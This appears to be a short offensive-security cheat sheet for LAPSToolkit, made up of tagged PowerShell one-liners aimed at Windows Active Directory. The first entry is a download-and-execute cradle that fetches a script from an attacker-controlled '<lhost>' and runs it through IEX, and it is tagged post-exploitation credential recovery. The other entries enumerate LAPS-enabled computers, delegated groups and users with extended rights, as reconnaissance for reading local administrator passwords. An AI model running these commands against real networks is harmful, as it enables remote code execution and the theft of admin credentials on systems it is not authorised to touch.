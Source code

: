 # LAPS

% LAPS, passwords

## laps toolkit
#plateform/windows  #target/remote  #cat/POSTEXPLOIT/CREDS_RECOVER 

https://github.com/leoloobeek/LAPSToolkit

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/LAPSToolkit.ps1') | IEX; Import-Module .\LAPSToolkit.ps1
```

## laps toolkit - Get laps computer
#plateform/windows  #target/remote  #cat/RECON 
```powershell
Import-Module .\LAPSToolkit.ps1; Get-LAPSComputers
```

## laps toolkit - find LAPS Delegated Groups
#plateform/windows  #target/remote  #cat/RECON 
```powershell
Import-Module .\LAPSToolkit.ps1; Find-LAPSDelegatedGroups
```

## laps toolkit - Find users with Extented rights
#plateform/windows  #target/remote  #cat/RECON 
```powershell
Import-Module .\LAPSToolkit.ps1; Find-AdmPwdExtendedRights
```